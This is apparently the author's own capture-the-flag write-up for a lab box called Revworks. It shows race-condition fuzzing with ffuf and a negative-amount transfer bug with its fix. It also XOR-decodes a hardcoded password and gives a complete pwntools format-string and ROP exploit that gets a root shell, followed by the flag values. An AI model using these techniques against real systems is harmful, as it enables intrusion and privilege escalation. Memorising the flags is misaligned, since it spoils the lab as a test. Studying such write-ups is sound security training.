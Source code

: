 # Revworks - Writeup

## Enumeration

### Nmap

```bash
ports=$(nmap -p- --min-rate=1000 -T4 192.168.100.210 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 192.168.100.210
```

We find the classic 22,80 ports and 3000 open.

### Web

Browsing to port 80 automatically redirects us to revworks.thm. Add revworks.thm to the hosts file and browse to it. We come across a website that claims to be a "Creative Business for Reversing and Analysis".
![img](https://i.ibb.co/0JLprWf/revworks.png)

#### Winning Web Race

##### Enumeration

Browsing the base website, we see that we can `signup`(/users/sign_up) and `login` (/users/sign_in), so we create a test account `test@revworks.thm:password`, it automatically signs in the created user and now we have three more options, we can `purchase`(/site/purchasae), `transfer`(/site/transfer), `Edit profile` and we also have a `money` attribute which has a default value of 1. The `Edit profile` page is not useful to us.


Going to `/site/purchase`, we see the below page. We need our "money" value to be 10 in order to get access to the product. If we click buy, it just prompts that we do not have enough money to buy the product.
![img](https://i.ibb.co/mz4TqBL/purchase.png)


Going to `/site/transfer`, we see the below page. It says that we can only send/recieve to/from one user at this point. (Developer's note: This was made so that users simply do not create 10 or more accounts and transfer the amount to a single user, bypassing the race condition)
The email of the user has to follow the format `.*@revworks.thm`.


Transfering an amount of 1 to another user we created(`test1@revworks.thm:password`) and intercepting the request in burp, we see that the transfer was successful.

##### Exploitation

Dev Note: There is an unintended bug in the application where if you transfer a negative value to another user, the server ends up adding to your amount because of the following code:
```ruby
current_user.money -= amount.to_i
current_user.save
```
this does not check if the amount is negative and a negative amount results in current_user's money to be incremented. This bug is easily fixed by simply taking the absolute value of the amount or adding a check at the start of the code so that value is not negative as I have done here [revworks](https://github.com/Zeeshan12340/revworks). This bug was informed to me by @auk0x01 on discord.

Below is the "intended" method for exploiting this webapp:
This setup allows us to perform a web race condiiton such that `test` makes a large number of asynchronous requests transfering to `test1` and the other user does the same. The end result that the server can not keep track of the transfers and transfers more amount to one or both users. This can be scripted in python3 using a module such as `grequests` but it is simpler and easier to do it using an already built fuzzing tool such as `ffuf`.

In one terminal, run the fuzzer with the cookie of `test` and with post data `test1@revworks.thm`.
In another terminal, run it with the cookie of `test1` and post data `test@revworks.thm`

Now, make sure that you're using the cookie of `test` with post data `test1` and vice versa.
Using cookie of `test`, we use
```bash
ffuf -c -u http://revworks.thm/site/transfer_money -X POST -w list.txt -H "Content-Type: application/x-www-form-urlencoded" -b "_revworks_session=sqVh5MO0L33NucU7e1Aggvb6ArHbA8g%2BUjcSmM3qwJU1X7EmRMXVuKK8q82buGs83%2F07UZqg%2BbHuxsjEEeOhCCA09PbMW9p9KO87PhWqXIu%2BDGC0zRLdsGV%2F6SMV5J%2B%2F4%2FXqyyFw68NI4swrCYBI1OMq4%2FHEpSvxU43NhJqP322P7giL4H6q9FCJRuh8D6%2FYJpnTewHyJqAc2xipXq40GJlm2R4RPfWmTnS7pj5rnYjEYwGZDOy3UwYuCJcMETViru7QxwSZyVBU%2FhxwyFHRIMKNZhv37oFwS6qzMb6f24CxaPcLSEZCxCjR%2BWQ6Hp6EqYoEK6imyvn%2BGoBkzLlevmHJD8eh8o5jtP4EDXkve3EtQIKADQiyVB9v9STX9Mo9lz5IfC92IccL--2Vi8n00asZ2J4BP8--PwXNIij%2FnP6%2FqS5YxaI%2Fwg%3D%3D" -d "email=test1@revworks.thm&amount=FUZZ" -fc 302
```
where list.txt is generated using `yes 1 | head -n 10000 > list.txt` in bash.

Using cookie of `test1`, we use
```bash
ffuf -c -u http://revworks.thm/site/transfer_money -X POST -w list.txt -H "Content-Type: application/x-www-form-urlencoded" -b "_revworks_session=gAOnqhA2aHLiNpPTTeucV5WO2wDrnhEiyFjEdELnpiqvWPOtHAsg%2BlXVARwd3EnfgaVsbHuLTINGZtFrtorq8%2BWpoEKLjhjQKug6WSSPvh2G9k6GqL8zKvtpzI4V9pn7cW2bRJv5HlHK8n6o25YGnm%2FFHlKPu4mtvwZ6z0nXKg02%2Bv%2B2koADIS%2BPIBi2T9Ja2kZ5FSL%2F21IFro3HwVNZVSgP2Mt0UunSg%2BzNP2Un5V7KtBKOZSVhLrG7PBAgcbCg1kqc4xwuYrU530Pp2obhCmiDrg%2BeySZel8N0L6QILwDOYdF0XLlt7LFmxeOtrYLcp%2BCeZy3aG6xYcSIwEdUqk5CdOblCYSrEqX4rKTjnICnBkZBYMdQkI2HM1QalS8%2Fu%2FsnwK%2B7YK0xA--REMd5Ilr07l2nhRh--eAvZKw%2BwUdtSHpDdz%2BKtKA%3D%3D" -d "email=test@revworks.thm&amount=FUZZ" -fc 302
```
the both commands should be run as close as possible.

Running these for one or two minutes should result in one or both of the users having >= 10 amount on the site. (Depending on the setup, this may vary, but I had consistent results running the webapp in a VM and my local machine)

### Reversing

Heading over to `/site/purchase`, we download the `PasswordGenerator` program, run it and open it up in ida free.

The program has two functions, `generatePassword` and `checkHash`. 
- `generatePassword` takes in the length of the password(from 0-20) and makes a random password which isn't useful for us. 
- `checkHash` function is interesting, it supposedly needs an ssh keyfile to recover the password(random id_rsa hash is used here).

The `checkHash` function reads in a file, computes its SHA1 hash and compares it against the known hash if it matches, it will show us the password. Since, we do not have the keyfile and extracting+bruteforcing the hash itself isn't feasible, we will reverse the part of the `checkHash` function which shows the password. It's decompilation by ida is shown below:
![img](https://i.ibb.co/y5PGL6B/function.png)

here the values for secret and key are `secret="zeeshan"`,
`key = [0x29, 0x03, 0x04, 0x03, 
		0x1e, 0x03, 0x24, 0x66,
		0xf1, 0x1d, 0x18, 0x11,
		0x06, 0x0a, 0x4d, 0x3d,
		0xb9, 0x57]`

We can use the following script to get the password,
```py
#!/usr/bin/env python3

secret = "zeeshan\x00"
key = [
  0x29, 0x03, 0x04, 0x03, 
  0x1e, 0x03, 0x24, 0x66,
  0xf1, 0x1d, 0x18, 0x11,
  0x06, 0x0a, 0x4d, 0x3d,
  0xb9, 0x57]

password = ""
for i in range(18):
  password += chr(key[i] ^ (ord(secret[i & 7]) + i))

print(f"{password = }")
```
which gives us a password `SecurePassword123!`

Bonus Solve: There is also a `ptrace` checker in `checkHash` so that calling the function in gdb is harder but it's still possible to step over the function call and set the result value to be `1` and simply have the program print out the password.

### User

With the password, we can ssh to the machine. We have three users from the main website page, trying all
of them we see that we can login as stephen with the above password.

### Root
Running `sudo -l` we see that we have `/manager`. We can use the following python3 script to exploit the binary and get a shell on the box, I've tried to add as much comments as possible. The program itself is very simple, `main` function reads in your input and prints it out, `vuln` function uses `scanf` too which allows you to hijack control flow and get a shell.

The program has all protections enabled.

The libc used for the exploit is copied using `scp` from the remote host.
`pwninit` has been used to patch the program to use the remote libc.

```py
#!/usr/bin/env python3
from pwn import * 
context.arch = "amd64"
# context.log_level = "debug"
# gdb debugging
gdbscript="""
b *vuln+105
c
"""
if args.REMOTE:
	shell = ssh(host="revworks.thm", user="stephen", password="SecurePassword123!")
	io = shell.process(["sudo","/manager"])
	elf = ELF("./manager_patched")
	libc = ELF("./libc.so.6")
else:
	io = process("./manager_patched")
	# gdb.attach(io, gdbscript=gdbscript)
	elf = io.elf
	libc = io.elf.libc

# format string payload to leak 
# program address, canary and libc addr respectively
payload = b'%133$lx-%25$lx-%3$lx-%58$lx'
io.sendline(payload)

io.recvuntil(b"following:")
io.recvline()

leak = io.recvline().decode().strip().split('-')
addr = int(leak[0], 16)
canary = int(leak[1], 16)
libc_addr = int(leak[2], 16)
stack_addr = int(leak[3], 16) 

stack_ret = stack_addr - 0x1b0

# setting elf base because PIE is enabled
elf.address = addr - 0x40
# setting libc base becasue ASLR is enabled
libc.address = libc_addr - 0x114a37 + 0x69c0
log.info(f"elf base is at: {hex(elf.address)}")
log.info(f"elf canary is : {hex(canary)}")
log.info(f"libc base is at: {hex(libc.address)}")
log.info(f"stack addr is at: {hex(stack_ret)}")

# badchars because scanf terminates on whitespace etc.,
rop = ROP(libc, badchars=b'\x08\x09\x10\x0c\x0d\x20')

sleep(0.5)
# correcting canary with the same value
payload = b"A"*40
payload += p64(canary)
payload += b"A"*8

payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))

payload += p64(rop.find_gadget(['pop rsi', 'ret'])[0])
payload += p64(0)

payload += p64(libc.symbols['execv'])

io.sendline(payload)

io.interactive()
```
I used `execv` instead of `system` here because the address for system had `0x0d` in it so it was not possible to write it using scanf(it is still possible to `read`(libc.sym.read) in a second payload from stdin which contains `system` and execute it but `execv` is simpler for our purposes)

`user.txt:243f92599bc872c99e1ea00ac1e3aa4f`
`root.txt:320aec873758ba547c1a463b07e61269`

#### That is it for the box, hope you enjoyed and learned something new. I had a lot of fun of making it :)
------------------------------------------------------------------------------------------------------
